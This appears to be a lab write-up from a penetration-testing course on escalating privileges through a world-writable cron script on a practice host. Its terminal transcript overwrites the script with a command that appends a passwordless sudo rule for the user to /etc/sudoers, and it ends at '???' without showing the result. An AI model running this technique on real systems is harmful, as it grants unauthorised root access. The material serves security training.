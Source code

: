 # Exploiting Misconfigured Cron Jobs


**Cron Jobs**\
**Cron** = **Task Scheduling** utility\
Time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.\
An applications, or scripts that has been configured to be run repeatedly with **Cron** is known as a **Cron job**


### Practice

```bash
# On the browser
http://target.ine.local:8000

student@target:~$ whoami
student

student@target:~$ ls -al
total 12
drwxr-xr-x 1 student student 4096 Sep 23  2018 .
drwxr-xr-x 1 root    root    4096 Sep 23  2018 ..
-rw------- 1 root    root      26 Sep 23  2018 message

student@target:~$ pwd
/home/student

student@target:~$ cat message
cat: message: Permission denied

student@target:~$ cd /
student@target:/$

# grep utility to find path home/student/message
student@target:/$ grep -rnw /usr -e "/home/student/message"
/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message

student@target:/$ ls -al /tmp
total 12
drwxrwxrwt 1 root root 4096 Jul 18 07:03 .
drwxr-xr-x 1 root root 4096 Jul 18 06:46 ..
-rw-r--r-- 1 root root   26 Jul 18 07:03 message
-rw-r--r-- 1 root root    0 Jul 18 06:46 ready

student@target:/$ cat /tmp/message
Hey!! you are not root :(


student@target:/$ ls -al /usr/local/share/copy.sh
-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh

student@target:/$ cat usr/local/share/copy.sh
#! /bin/bash
cp /home/student/message /tmp/message
chmod 644 /tmp/message

tudent@target:/$ printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
student@target:/$ cat /usr/local/share/copy.sh
#!/bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoersstudent@target:/$

???
```